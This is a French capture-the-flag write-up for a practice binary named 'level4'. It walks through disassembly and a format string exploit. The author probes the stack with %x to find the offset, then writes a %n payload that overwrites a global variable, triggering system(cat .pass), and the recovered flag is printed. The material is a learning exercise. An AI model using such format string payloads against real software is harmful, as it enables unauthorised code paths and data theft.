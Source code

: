 


# level4


## description
- Il y a un exécutable **level1**.Lorsqu'on l'exécute, il prends des caractères sur **stdin** puis l'affiche.

## Résolution

Dans la fonction n peut voir l'utilisation de **fgets** qui est protégé contre le buffer overflow. 

Dans la fonction **n**, il y a une fonction p qui est appelée qui contient un appel a printf.

      0x08048450 <+12>:    call   0x8048340 <printf@plt>

On voit aussi que **system** appel **cat** sur le fichier **.pass**.

      0x08048499 <+66>:    movl   $0x8048590,(%esp)
       0x080484a0 <+73>:    call   0x8048360 <system@plt>

Dans la fonction n, il y a une comparaison entre la variable **m** et **0x1025544**(16930116)

       0x0804848d <+54>:    mov    eax,ds:0x8049810
       0x08048492 <+59>:    cmp    eax,0x1025544

Donc on va utiliser le format **format string exploit**

    python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit1 && cat /tmp/exploit1 | ./level4 
    
    aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0
On ne la trouve pas donc on va chercher plus loin.

    python -c 'print "aaaa" + " %x" * 15' > /tmp/exploit1 && cat /tmp/exploit1 | ./level4 
    
    aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
On trouve notre adresse à la 12e position.

On ne peut pas utiliser la même façon que sur le level3 vu que **fgets** prends maximum 512 caractères.

avec le %d, on peut indiquer la taille du champ.

    python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit1 && cat /tmp/exploit1 | ./level4 
On a le flag.

    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
